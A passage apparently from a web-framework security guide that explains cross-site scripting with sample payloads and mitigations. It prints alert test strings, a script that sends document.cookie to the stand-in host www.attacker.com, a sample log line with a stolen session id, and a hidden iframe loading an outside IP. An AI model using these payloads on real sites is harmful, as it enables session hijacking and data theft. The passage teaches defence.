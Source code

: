 Here is the most straightforward test to check for XSS:

```html
<script>alert('Hello');</script>
```

This JavaScript code will simply display an alert box. The next examples do exactly the same, only in very uncommon places:

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie Theft

These examples don't do any harm so far, so let's see how an attacker can steal the user's cookie (and thus hijack the user's session). In JavaScript you can use the document.cookie property to read and write the document's cookie. JavaScript enforces the same origin policy, that means a script from one domain cannot access cookies of another domain. The document.cookie property holds the cookie of the originating web server. However, you can read and write this property, if you embed the code directly in the HTML document (as it happens with XSS). Inject this anywhere in your web application to see your own cookie on the result page:

```
<script>document.write(document.cookie);</script>
```

For an attacker, of course, this is not useful, as the victim will see their own cookie. The next example will try to load an image from the URL http://www.attacker.com/ plus the cookie. Of course this URL does not exist, so the browser displays nothing. But the attacker can review their web server's access log files to see the victim's cookie.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

The log files on www.attacker.com will read like this:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

You can mitigate these attacks (in the obvious way) by adding the [httpOnly](http://dev.rubyonrails.org/ticket/8895) flag to cookies, so that document.cookie may not be read by JavaScript. Http only cookies can be used from IE v6.SP1, Firefox v2.0.0.5 and Opera 9.5. Safari is still considering, it ignores the option. But other, older browsers (such as WebTV and IE 5.5 on Mac) can actually cause the page to fail to load. Be warned that cookies [will still be visible using Ajax](http://ha.ckers.org/blog/20070719/firefox-implements-httponly-and-is-vulnerable-to-xmlhttprequest/), though.

##### Defacement

With web page defacement an attacker can do a lot of things, for example, present false information or lure the victim on the attackers web site to steal the cookie, login credentials or other sensitive data. The most popular way is to include code from external sources by iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```
